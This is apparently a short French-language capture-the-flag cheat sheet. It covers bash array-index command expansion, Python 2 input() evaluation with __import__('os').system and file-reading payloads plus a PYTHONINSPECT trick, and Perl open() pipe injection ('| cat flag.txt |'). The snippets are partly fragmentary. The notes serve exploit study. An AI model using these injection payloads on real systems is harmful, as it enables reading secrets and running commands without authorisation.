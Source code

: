 ## [Bash Broken input](#Bash-Broken-input)
## [Python 2.17](#Python2.17)
## [Perl Injection](#Perlinjec)
Perlinjec
<a name="Bash-Broken-input"></a>
Dans un script bash, on peut évaluer des choses même si ces choses là sont dans des ' .

Basiquement, lorsqu'on met une variable comme FOO=42 et qu'on l'invoque avec '$FOO', la réponse sera : $FOO et non pas 42.

Par contre, bash évalue et expanse ce quil y a à l'intérieur de tableau.

Donc par exemple, si on fait FOO="x[$(echo toto)]" et qu'on fait '$FOO' on aura : toto.



<a name="Python2.17"></a>
Avec python 2.7.17 on peut acceder a n'importe quelle fonction dans le script, ou bien importer une fonction via __import__:

__import__('sys').stdout.write(open("flag.txt", 'r').read())
__import__('os').system('cat flag.txt> /tmp/flag.txt')

=> GOTO flag.txt

Ou bien :

#!/usr/bin/python2

import sys

def ultrasecret():
    open("supersecret", 'r').read()
    sys.exit(1)

try:
    p = input("Please enter password : ")
    

Please enter password : ultrasecret()

PYTHONINSPECT=YesMyLord ./xx
Please enter password : blabla !
Traceback (most recent call last):
<SNIP>
>>> f = open("flag")
>>> print f.readlines()
['...']

<a name="Perlinjec"></a>
Perl command Injection :

The open() function can be used to pass a command :
# ex : “| cat flag.txt |”
